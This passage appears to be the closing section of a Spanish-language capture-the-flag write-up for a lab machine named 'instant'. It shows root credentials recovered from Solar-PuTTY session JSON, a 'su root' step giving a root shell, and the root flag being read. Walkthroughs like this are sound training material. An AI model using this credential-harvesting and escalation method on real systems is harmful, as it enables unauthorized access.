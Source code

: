 ![Write-up Image](images/Screenshot_22.png)

Y vemos esta parte en el JSON.
```json
"Credentials": [
    {
      "Id": "452ed919-530e-419b-b721-da76cbe8ed04",
      "CredentialsName": "instant-root",
      "Username": "root",
      "Password": "12**24nzC!r0c%q12",
      "PrivateKeyPath": "",
      "Passphrase": "",
      "PrivateKeyContent": null
    }
  ],
```

Y ya podemos migrar al usuario `root`
```console
shirohige@instant:/opt/backups/Solar-PuTTY$ su root
Password: 
root@instant:/opt/backups/Solar-PuTTY# id
uid=0(root) gid=0(root) groups=0(root)
```

Podemos leer la flag de `root`
```console
root@instant:~# cat root.txt 
4e1c549df07e76...
```

¡Y ya estaría!

Happy Hacking! 🚀